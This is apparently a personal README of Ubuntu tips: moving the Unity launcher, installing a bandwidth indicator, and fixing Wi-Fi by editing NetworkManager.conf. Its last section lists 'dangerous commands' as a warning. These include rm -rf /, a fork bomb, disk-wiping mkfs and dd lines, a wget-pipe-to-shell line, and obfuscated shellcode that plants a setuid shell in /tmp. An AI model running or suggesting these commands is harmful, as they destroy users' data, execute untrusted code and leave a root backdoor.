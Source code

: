 # Linux Stuff

## Move Unity Launcher (Icon Bar)

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```

```sudo apt-add-repository ppa:fixnix/netspeed```

```sudo apt-get update```

```sudo apt-get install indicator-netspeed-unity```

## Ubuntu 17.04
### If Wifi is not connecting

#### Edit the file /etc/NetworkManager/NetworkManager.conf

```sudo su```

```pico /etc/NetworkManager/NetworkManager.conf```

#### Add the following code at the end of this file

```
[device]
wifi.scan-rand-mac-address=no
```

#### After saving simply restart the network

```sudo service network-manager restart```


## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```

```rm -r command deletes the folder recursively, even the empty folder.```

```rm -f command removes ‘Read only File’ without asking.```

```rm -rf / : Force deletion of everything in root directory.```

```rm -rf * : Force deletion of everything in current directory/working directory.```

```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```
